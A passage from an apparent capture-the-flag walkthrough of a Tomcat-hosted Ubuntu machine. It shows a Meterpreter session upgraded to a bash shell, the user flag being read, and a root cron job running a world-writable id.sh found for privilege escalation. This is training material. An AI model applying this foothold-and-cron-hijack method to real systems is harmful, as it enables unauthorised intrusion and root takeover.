 ``` bash
Meterpreter  : x86/linux
meterpreter > shell
Process 905 created.
Channel 1 created.
/bin/bash -i
bash: cannot set terminal process group (659): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@ubuntu:/$ 
```

After that we can grab the user flag:

``` bash
tomcat@ubuntu:/home/jack$ cat user.txt
cat user.txt
[REDACTED]
```

## 4. Privilege Escalation

Proceeding with privilege escalation, I checked the cron jobs on the system:

``` bash
tomcat@ubuntu:/home/jack$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh
#
```

I found a script called `id.sh` which runs with `root` permissions all the time! I found this file in the `/home/jack` directory and `jack` has read, write, and execute permissions!

``` bash
tomcat@ubuntu:/home/jack$ ls -lah
ls -lah
total 48K
drwxr-xr-x 4 jack jack 4.0K Aug 23  2019 .
drwxr-xr-x 3 root root 4.0K Aug 14  2019 ..

...

-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
-rw-r--r-- 1 root root   39 Jul 11 07:04 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
```
